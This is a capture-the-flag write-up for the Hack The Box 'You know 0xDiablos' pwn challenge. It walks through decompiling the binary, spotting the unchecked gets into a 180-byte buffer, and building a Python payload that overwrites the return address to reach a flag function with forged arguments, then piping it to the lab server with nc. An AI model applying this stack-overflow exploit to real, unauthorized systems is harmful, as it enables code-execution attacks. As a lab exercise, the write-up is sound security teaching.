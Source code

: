 # [You know 0xDiablos](https://app.hackthebox.com/challenges/You%2520know%25200xDiablos) Writeup [HTB]
_Pwn_

## Analyzing the executable
The challenge provides a `vuln` executable file, not stripped. 

First, I try to run it. The program looks pretty simple: it reads a string from standard input, and then prints it back. This smells like stack buffer overflow...

I proceed to decompile it with Ghidra, and find 3 functions: `main`, `vuln` and `flag`.

```c
/* main function (simplified) */
int main(void) {
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}

/* vuln function */
void vuln(void) {
  char local_bc [180];
  gets(local_bc);
  puts(local_bc);
  return;
}

/* flag function (!!) */
void flag(int param_1,int param_2) {
  char flag_str [64];
  FILE *fp;
  
  fp = fopen("flag.txt","r");
  if (fp != NULL) {
    fgets(flag_str,64,fp);
    if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
      printf(flag_str);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
  exit(0);
}
```
Overall, the `vuln` function is the one responsible for reading the stdin message and printing it back. The `flag` function is the one I want to execute, but it doesn't appear anywhere in the control flow. This is where the stack buffer overflow comes in!

## Stack buffer overflow basics
Whenever a function is called, the instruction pointer value is pushed in the stack. This is known as the function's _return address_. Later on, when the function hits the `return` instruction, the address is popped out of the stack and used to set the instruction pointer value, to correctly resume the program's control flow.

The aim of a stack buffer overflow exploit is to rewrite the return address that is lying around in the stack. This way, I can force the program to execute whichever instruction I want! 

In this case, I want to set it to the entry point of `flag`. Needless to say, this requires _knowing_ the entry point of `flag`.
This is where my dearest `gdb` comes in action!

```sh
gef➤  info address flag
Symbol "flag" is at 0x80491e2 in a file compiled without debugging.
```

The second component I need for this attack is, well, a buffer we can overflow. This is pretty easy to spot. 
The `vuln` function allocates 180 bytes for the input message. However, it uses the `gets` function to read it, which doesn't make any kind of size check. As a consequence, I can input more than 180 characters and overflow the buffer.

Now it's time to study the stack and craft a payload!

## Getting to `flag`
When `gets` is called, the stack looks like this:

![Stack diagram](../figs/stack-1.jpg)

In order to overwrite the return address field, I first need to compute how much space is occupied by local variables and saved registers.
There is only one local variable, which is our buffer, and it's 180 B. As far as the registers are concerned, I can check them with `geff`:
```sh
gef➤  info frame
[...]
Saved registers:
  ebp at 0xffffcf68, eip at 0xffffcf6c
```
Since each register is 4 B, the total space before the return address is 188 B. After 188 B, I can write the `flag` address, without forgetting that the machine uses the Little Endian architecture. The buffer content will be the following:
```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08'
)
```
When inputting this payload to the program, I actually reach the `flag` function!

## Breaking the "if"
Executing `flag` is not enough to print the flag on screen. Let's recall the decompiled code:
```c
void flag(int param_1,int param_2) {
  /* [...] */
  if ((param_1 == L'\xdeadbeef') && (param_2 == L'\xc0ded00d')) {
    printf(flag_str);
  }
  /* [...] */
}
```
In order to get to the flag, I need to pass some specific parameters to the function!

Whenever a function is called, its parameters are passed, yet again, through the stack. Specifically, when a function is called, the stack content is interpreted as follows:

![Stack when calling a function](../figs/stack-2.jpg)

This means we can set `param_1` and `param_2` to the correct values by simply adding them to our payload, taking care to leave 4 B for the return address.

```py
payload = (
    b'A' * 180 +
    b'REG1' +
    b'REG2' +
    b'\xe2\x91\x04\x08' +
    b'ADDR' +
    b'\xef\xbe\xad\xde' +
    b'\x0d\xd0\xde\xc0'
)
with open('payload.bin', 'wb') as f:
    f.write(payload)
```

Now that the payload is ready, we can use it to get the flag!
```sh
$ cat payload.bin | nc 94.237.49.219 51815
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA���AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAREG1REG2ADDRﾭ�
HTB{XXX}
```

## Read more!
[➡️ Next challenge: PDFy](./pdfy.md)